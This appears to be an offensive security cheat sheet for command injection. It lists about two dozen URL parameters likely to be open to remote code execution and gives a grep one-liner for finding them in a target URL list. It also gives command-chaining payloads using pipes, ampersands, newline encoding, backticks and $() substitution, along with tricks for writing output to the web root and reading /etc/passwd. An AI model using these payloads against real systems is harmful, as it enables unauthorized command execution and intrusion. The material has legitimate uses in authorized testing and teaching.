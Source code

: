 Here are the top 25 parameters that could be vulnerable to code injection and similar RCE vulnerabilities

```bash
?cmd={payload}
?exec={payload}
?command={payload}
?execute{payload}
?ping={payload}
?query={payload}
?jump={payload}
?code={payload}
?reg={payload}
?do={payload}
?func={payload}
?arg={payload}
?option={payload}
?load={payload}
?process={payload}
?step={payload}
?read={payload}
?function={payload}
?req={payload}
?feature={payload}
?exe={payload}
?module={payload}
?payload={payload}
?run={payload}
?print={payload}
```
* Example
```bash
cat target_all_url.txt | grep -E "?print=|?run=|?payload=|?module=|?exe=|?feature=|?req=|?function=|?read=|?step=|?process=|?load=|?option=|?arg=|?func=|?do=|?reg=|?code=|?jump=|?query=|?ping=|?execute=|?command=|?exec=|?cmd="
```
### Command Injection/Execution
```bash
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful

#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```



